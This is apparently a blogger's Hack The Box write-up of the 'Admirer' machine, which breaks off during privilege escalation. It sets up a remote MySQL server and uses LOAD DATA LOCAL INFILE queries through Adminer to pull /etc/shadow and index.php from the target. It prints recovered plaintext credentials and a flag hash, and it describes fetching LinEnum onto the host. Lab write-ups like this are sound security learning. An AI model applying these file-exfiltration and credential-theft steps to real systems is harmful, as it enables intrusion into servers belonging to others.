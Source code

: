 I have been having a lot of trouble starting my `mysql` server on my machine. I wasn't able to connect for a while. However here is what I figured out.

Use the command `sudo service mysql start` to start the server. Next use the command `sudo mysql` to connect to the `mysql` shell. Now here goes a series of commands.

```
CREATE DATABASE admirer;
use admirer;
CREATE USER 'htb'@'%' IDENTIFIED BY 'hacker';
GRANT ALL PRIVILEGES ON * . * TO 'htb'@'%';
FLUSH PRIVILEGES;
CREATE TABLE test(data VARCHAR(255));
```

Now that we have user and it's privileges set we need to set the `bind-address` to 0.0.0.0 in `/etc/mysql/mariadb.conf.d/50-server.cnf`.

Now that this is all set we can connect to our server on the login page by filling out the following information.

```
Server: 10.10.14.22 (this your internal htb ip, find it on the Access page)
username: htb
password: hacker
database: adminer
```

Then boom we connect. We have come a long way to get this far! So close to user I can feel it. Now we need to try and exfiltrate the user's password. Let's investigate. We can enter SQL commands into this website. So based on the command suggested in the second article, we should be able to use `LOAD DATA LOCAL INFILE '/etc/shadow' INTO TABLE test`, looks like we are not allowed to view that file... surprise. Let's try using the query `LOAD DATA LOCAL INFILE '../index.php' INTO TABLE test` because that is where we found some credentials from the files we got via `ftp`. This is what we found:

```
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";
```

If we try using these credentials to `ssh` into the machine they work! User success. Here is the hash that was on my machine `f0c71b0bad8032c9cf59393f1eb7d3e5`.

Now to try and escalate to root! Right off the bat I ran the command `sudo -l` to see what commands `waldo` could run. We can see that there is a script called `admin_tasks.sh` if we try and run it we get the same options that were on the web interface. I tried to create a password backup but was unable due to insufficient permissions.

There is also a few backup that have been created. If we do the command `find \ | grep .bak | grep .bak` the we can find another password backup that has been created. Unfortunately we are not allowed to access this file again. I tried catting out the `.bash_history` of the users, but it looks like they are all being piped to `/dev/null`.

Now I downloaded the post exploit script linenum to the server and ran it to see if anything will stand out. I got lenenum from the repo [here](https://raw.githubusercontent.com/Open-Sec/LinEnum/master/LinEnum.sh). Okay... so I don't really know what I am reading, but nothing really stands out to me. However after doing `sudo -l` again I realized that I could run the `admin_tasks.sh` as root. So I can create the `passwd.bak` file. However I still cannot read it. Let's see if we can alter the code in the shell script. I am silly. My target is not `passwd.bak` because I can already read it at `/etc/passwd`.
